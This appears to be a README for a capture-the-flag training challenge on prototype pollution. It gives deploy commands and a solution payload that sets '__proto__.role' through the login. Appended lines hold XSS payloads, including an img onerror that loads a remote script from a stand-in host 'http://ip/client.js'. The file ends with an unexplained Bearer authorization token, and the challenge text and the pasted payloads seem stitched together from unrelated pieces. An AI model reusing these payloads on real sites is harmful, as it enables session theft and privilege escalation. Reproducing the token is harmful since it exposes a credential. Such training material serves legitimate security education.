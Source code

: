 # Type
`challenge CTF training: Re03`
# Deploy
- `docker-compose up -d --build`
# Description
Prototype pollution vulnerability.
## Chức năng
- Đăng nhập
## Solution
- POST data trong chức năng đăng nhập: {"\_\_proto\_\_":{"role":1}} (lưu ý header cần sửa thành Content-Type: application/json)
## Error: Cannot find module 'ejs' --> fix:
- `cd ./web`
- `npm install ejs`
<img src="http://nonexistent-image" onerror="var script = document.createElement('script'); script.src='http://ip/client.js'; document.body.appendChild(script);">
java:alert()
<a href="javascript:alert(1)">Click here</a>
//<img src="nonexistent.jpg" onerror="var script = document.createElement('script'); script.src = 'http://ip/client.js'; document.body.appendChild(script);">

Authorization: Bearer gAAAAABnPFkNXTObuajuSn0Qq8sTF8xHV-hlWPdLhEAyxdB0zxfcECidTZ0_vhEh-ajU16X3ctwgqV5xLNvo0UkscVgASy6I4965SIf-zbKAf1xehrInyoBRloqgfpNKvmH5pae3ANuhhN4goh7E9QpaKUyddz3qk123J6GflrZckGjLDCjquGqoS5b1JjXrRhlkHg0ql0enXASijEKQkoiQW_4lsGj7_GrpasS4SniUSNoQxrmwJCsQjyXMPu-VsegZeOlEojVrUeaC9Q2AA1erkqAlGu3JahnfJSInFv3__nO5nUv4o6ELU8alDlPjYvXEBtbi8XIUCGeRCFq7G0zuk_3xQDGrSR21RTqdi3HNKak9CMYLvCM=
